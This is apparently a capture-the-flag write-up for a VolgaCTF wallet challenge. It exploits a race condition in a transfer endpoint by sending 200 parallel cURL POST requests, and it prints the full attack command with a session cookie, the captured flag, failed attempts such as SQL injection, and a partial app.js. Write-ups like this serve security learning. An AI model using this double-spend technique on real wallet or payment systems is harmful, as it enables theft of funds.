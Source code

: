 Okay, gotta figure out how to actually send these parallel cURL requests. I transfer 1ντ from one wallet to another while inside Burp's proxy browser, and I copy the cURL command for it from the HTTP history tab.

## Solution

https://stackoverflow.com/questions/46362284/run-multiple-curl-commands-in-parallel/46362380\

``` seq 1 200 | xargs -n1 -P10  curl "http://localhost:5000/example" ```

This code snippet taught me how to run multiple cURL commands in parallel. I slightly modified this command (make all requests parallel):

``` seq 1 200 | xargs -n1 -P200  <paste cURL command in here> ```

and ran it a couple (tens or hundreds) of times, refilling the origin wallet manually after unsuccessful attempts. Most of the time this didn't really work (no change to total balance), but maybe if I kept this up something could come out of it. The race condition seems to be possible to achieve in theory...

Well, repeating the same thing over and over and hoping for the outcome to change paid off! One of my wallets suddenly had -11ντ, and I withdrew money from it for sweet flag. Kek.

## Flag

VolgaCTF{3723759ca308887d334afe8074ec9c23}

## Appendix

Here's the full command I ended up using:
```bash
seq 1 200 | xargs -n1 -P200 curl -i -s -k -X $'POST'     -H $'Host: wallet.volgactf-task.ru' -H $'Connection: close' -H $'Content-Length: 112' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36' -H $'Content-Type: application/json' -H $'Accept: /' -H $'Origin: https://wallet.volgactf-task.ru/' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty' -H $'Referer: https://wallet.volgactf-task.ru/wallet' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Cookie: connect.sid=s%3AnY457Gv1Fn1zxAKMFgNkwPzwKsewm_vQ.YG3KQTSoxvC5MFVTWcB2Ji9xmiiNQWCHnKMfAd2JlGg'     -b $'connect.sid=s%3AnY457Gv1Fn1zxAKMFgNkwPzwKsewm_vQ.YG3KQTSoxvC5MFVTWcB2Ji9xmiiNQWCHnKMfAd2JlGg'     --data-binary $'{"from_wallet":"0xb287266695c23e0b2539bbd1c10f1fbf","to_wallet":"0xbf8a0c757b9ea9d4e68c70cf49de78b9","amount":1}'     $'https://wallet.volgactf-task.ru/transfer'
```

Things I tried:
- SQL Injections: TIL that parameterized SQL queries like the ones in this challenge protect against SQL Injections.

- BodyParser's rawBody field: Just a copy of the request body in string format. Trying to get parts of the code to parse the request body and the rawBody field differently didn't really work either.

- Duplicate keys in request body to float a larger-than-allowed transfer by: Nope. Server always chose last occuring key.

And here's the entire app.js file:
```js
const express    = require('express')
const bodyParser = require('body-parser')
const mysql      = require(`mysql-await`)
const session    = require('express-session')
const cookieParser = require("cookie-parser")

const pool = mysql.createPool({
  connectionLimit: 50,
  host     : 'localhost',
  user     : '***REDACTED***',
  password : '***REDACTED***',
  database : '***REDACTED***'
```